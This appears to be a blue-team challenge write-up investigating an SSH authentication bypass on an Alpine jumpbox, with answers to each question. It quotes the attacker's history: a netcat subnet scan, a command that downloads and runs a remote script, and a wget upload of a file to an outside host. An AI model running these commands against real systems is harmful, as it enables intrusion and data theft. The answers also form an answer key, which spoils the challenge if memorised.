

**Prepared by:** Mulandii · **Difficulty:** Very Easy

## Description

A jumpbox was compromised through its SSH server and used to scan the network behind it. Find how the attacker got in and what they did.

## Scenario

> Suspicious traffic was observed from a misconfigured jumpbox to a suspicious domain. You have been provided with evidence pulled from the jumpbox server. Determine how the attackers gained access to the server and what activity they performed afterwards.

## Artifacts Provided

`SSHole.zip` (SHA-256 `0fafbe2371c6f80b788d3c682c8a4c0603c37e4c2254e5c1da01bc22a23273e6`), password `hacktheblue`.

## Skills Learnt

* Identifying CVE Exploitation pattern
* Log Analysis
* SSH Analysis
* Unix Forensics

## Initial Analysis

The zip is AES-encrypted, so extract it with `bsdtar`:

```bash
mkdir extracted
bsdtar --passphrase hacktheblue -xf SSHole.zip -C extracted
```

It holds 274 files from an Alpine Linux host called `dev-jumpbox`: `etc/`, `var/log/`, and the home folders of `adminsvc` and `root`. Alpine has no `auth.log`. SSH events are in `var/log/messages`.

## Questions

### 1. What Linux distribution name and version was the targeted server running?

```bash
cat etc/os-release
```


_os-release_

**Answer:** `Alpine Linux 3.24.3`

### 2. What is the CVE ID of the vulnerability abused by the attacker to gain access?

Searching the OS version gives the CVE.


_Search for the OS version_

It is an OpenSSH authentication bypass on Alpine, nicknamed sshole. Details: [StepSecurity](https://www.stepsecurity.io/blog/cve-2026-123158-sshhole-openssh-musl-password-bypass), [Cycode](https://cycode.com/blog/sshole-cve-2026-123158-openssh-alpine-linux-vulnerability/).

**Answer:** `CVE-2026-123158`

### 3. When did the attacker exploit the vulnerability?

```bash
grep -nE 'Accepted|Failed' var/log/messages
```


_SSH logins in messages_

`adminsvc` fails once, then succeeds in the same process. That is how the bypass behaves.

```
11:27:05  sshd-session[4852]: Failed password for adminsvc from 192.168.72.1 port 61351 ssh2
11:27:08  sshd-session[4852]: Accepted password for adminsvc from 192.168.72.1 port 61351 ssh2
```

`root` also shows a fail then a success, so the pattern alone is not enough. `adminsvc` has no password (Question 5) and its history is the attack (Question 6). The log has no year. It comes from the file dates.

**Answer:** `2026-11-06 11:27:08`

### 4. Which user account was abused by the attacker?

Shell history is in the home folder, in a hidden file.

```bash
cd home/adminsvc/
ls -la
cat .ash_history
```


_adminsvc shell history_

A network scan, a downloaded script, an upload, then a shredded file. Root's history looks like normal setup work.

**Answer:** `adminsvc`

### 5. What string value causes the authentication bypass?

Two asterisks match:

* `/etc/shadow` stores `*` for an account with no password.
* A password over 256 bytes makes Alpine's `crypt()` fail, and it returns `*`.
* sshd sees `*` equals `*` and accepts the login.

```bash
cat etc/shadow
```


_adminsvc has `*` as its password_

```
adminsvc:*:20763:0:99999:7:::
```

`root` has a real hash, so it cannot match. The log does not record the password sent, so the bypass is inferred.

**Answer:** `*`

### 6. What command did the attacker use to scan the network reachable via the jumpbox, allowing them to target internal developer systems?

It is in the same history.


_Scan command in .ash_history_

```bash
for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done
```

It scans every port on every host in `192.168.18.0/24` with netcat. The results are in `scanreport.txt`:

```
192.168.18.5 443 445 3389
192.168.18.23 88 139 445 3389 6801 54321
```

Port 88 is Kerberos, so the second host looks like a domain controller.

**Answer:** `for ip in {1..254}; do nc -zvw 1 192.168.18.$ip 1-65535 2>&1 | grep -E "succeeded|open"; done`

### 7. What was the exfiltration URI where the attacker exfiltrated a sensitive file?


_Upload command in .ash_history_

```bash
bash <(wget -qO- https://raw.githubusercontent.com/papinyurii33/devscripts/refs/heads/main/setup.sh)
ls -l /tmp/.devenv
wget --post-file=/tmp/.devenv -O- https://devv.coding.eu/process
shred -u /tmp/.devenv
```

The attacker ran a script from GitHub, uploaded the hidden file it left in `/tmp`, then shredded it. `/tmp` was not collected, so the file's contents are unknown.

**Answer:** `https://devv.coding.eu/process`

## Summary

The attacker logged in to the passwordless `adminsvc` account at 11:27:08 using CVE-2026-123158, scanned `192.168.18.0/24`, ran a script, and uploaded a hidden file to `devv.coding.eu`. Their address, `192.168.72.1`, is private, so their real origin is unknown.
